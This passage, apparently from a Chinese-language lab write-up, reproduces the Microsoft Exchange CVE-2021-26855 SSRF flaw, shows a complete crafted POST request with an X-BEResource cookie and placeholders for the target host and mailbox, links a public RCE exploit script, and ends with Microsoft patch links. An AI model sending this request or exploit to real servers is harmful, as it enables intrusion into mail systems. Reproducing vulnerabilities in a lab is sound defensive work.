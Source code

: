 ![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsgkP8ZLKLFRicOicqptXibvfWBJDDqHShOlTVMY50FCB7IkQj4bmN3QAvlJTiaMVa5PxBHJHicWCfg2ylg/640?wx_fmt=png)  

7、使用域名 \ 用户名，密码即可登录管理中心  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsgkP8ZLKLFRicOicqptXibvfWBWZ31oiaM7FlPib5nkyvLicqiap9YiaMsDxsGWgBSucXOHHUz4vacwYuunRw/640?wx_fmt=png)  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsgkP8ZLKLFRicOicqptXibvfWBtq7NcEsEInN0fY3CPxfsnOVhoTZBtOsrOKWjTz2Mg4gg1PHkMYjuaw/640?wx_fmt=png)

**0x05 漏洞复现**  

  

1、尝试 CVE-2021-26855 SSRF 漏洞  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsgkP8ZLKLFRicOicqptXibvfWBZQB0PK600J3W91nuTJmbseXIdCibp9c8sYpnhtk2M0mUImkCaLAiciaqw/640?wx_fmt=png)  

```
POST /ecp/fewi.js HTTP/1.1
Host: ex.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Cookie: X-BEResource=WIN-UNQPITL7FNS(此处是你的目标主机名)/autodiscover/autodiscover.xml?a=~1942062522;
Content-Type: text/xml
Content-Length: 415
 
 
            <Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/requestschema/2006">
                <Request>
                <EMailAddress>Administrator@ex.com(此处是目标存在的一个邮箱地址)</EMailAddress>
                <AcceptableResponseSchema>http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a</AcceptableResponseSchema>
                </Request>
            </Autodiscover>
```

2、执行 exp  
exp 地址：  

```
https://github.com/mai-lang-chai/Middleware-Vulnerability-detection/blob/master/Exchange/CVE-2021-26855 Exchange RCE/exp.py
```

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsgkP8ZLKLFRicOicqptXibvfWB8aHlFDtUqoJ3evhrykkeYYPHCynDvhJWoU4P0nJ7ibHeuPEEuwPr5Qw/640?wx_fmt=png)

**0x06 修复方式**  

  

1、微软官方已经发布了解决上述漏洞的安全更新，建议受影响用户尽快升级到安全版本，官方安全版本下载可以参考以下链接：  

```
https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-26855
https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-26857
https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-26858
https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-27065
```
